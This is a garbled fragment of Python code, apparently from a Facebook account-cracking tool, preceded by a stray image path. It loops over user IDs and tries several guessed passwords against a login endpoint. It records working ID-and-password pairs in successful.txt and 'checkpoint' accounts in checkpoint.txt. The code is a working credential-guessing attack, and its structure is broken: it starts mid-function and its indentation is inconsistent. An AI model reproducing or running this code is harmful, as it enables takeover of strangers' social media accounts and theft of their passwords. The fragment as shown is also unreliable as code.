 			

	def main(arg):

cp.write(uid+" | "+pass1+"\n")

					cp.close()

					cps.append(uid+pass1)

				else:

					data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass2, headers=header).text

					q = json.loads(data)

					if "loc" in q:

						print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass2+"\033[0;97m")

						ok = open("successful.txt", "a")

						ok.write(uid+" | "+pass2+"\n")

						ok.close()

						oks.append(uid+pass2)

					else:

						if "www.facebook.com" in q["error"]:

							print("\033[1;91m[CheckPoint] "+uid+" | "+pass2+"\033[0;97m")

							cp = open("checkpoint.txt","a")

							cp.write(uid+" | "+pass2+"\n")

							cp.close()

							cps.append(uid+pass2)

						else:

							data = requests.get("http://localhost:5000/auth?id="+uid+"&pass="+pass3, headers=header).text

							q = json.loads(data)

							if "loc" in q:

								print("\033[1;92m[Successful] \033[1;96m"+uid+" | "+pass3+"\033[0;97m")

								ok = open("successful.txt", "a")

								ok.write(uid+" | "+pass3+"\n")

								ok.close()

								oks.append(uid+pass3)

							else:

								if "www.facebook.com" in q["error"]:

									print("\033[1;91m[CheckPoint] "+uid+" | "+pass3+"\033[0;97m")
